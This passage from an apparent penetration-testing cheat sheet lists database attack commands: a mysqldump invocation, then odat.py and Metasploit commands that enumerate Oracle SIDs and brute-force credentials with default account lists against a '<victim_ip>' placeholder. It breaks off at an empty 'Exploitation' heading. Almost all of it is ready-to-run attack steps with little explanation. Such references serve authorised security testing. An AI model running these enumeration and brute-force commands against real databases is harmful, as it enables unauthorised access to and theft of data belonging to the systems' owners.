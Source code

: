 #### tool mysqldump

binary: mysqldump
```
mysqldump --user=<user_name> --password=<user_password> --host=localhost <database name>

for example:
mysqldump --user=user_name --password=password_value --host=localhost Magic
```

-------------------------------------------------------------------------------------------------------------------------------

# Oracle 

--------------------------------------------------------------------------------------------------------------------------------

tool: https://github.com/quentinhardy/odat

## SIDs enumeration

- Identify SIDs via odat.py tool
```
python3 odat.py sidguesser -s <victim_ip>
```

- Identify SIDs via metasploit
```
msf > use auxiliary/admin/oracle/sid_brute 
msf auxiliary(admin/oracle/sid_brute) > set rhost <victim_ip>
msf auxiliary(admin/oracle/sid_brute) > run
```

## Brute force credentials 

- via odat.py
```
locate oracle_default_userpass.txt

python3 odat.py passwordguesser -s <victim_ip> -p 1521 -d XE --accounts-file accounts/oracle_default_userpass.txt
```

- via metasploit
```
msf > use auxiliary/admin/oracle/oracle_login
msf auxiliary(admin/oracle/oracle_login) > set sid (for example XE)
msf auxiliary(admin/oracle/oracle_login) > set rhost <victim_ip>
msf auxiliary(admin/oracle/oracle_login) > run
```
Brute force credentials via metasploit

## Exploitation
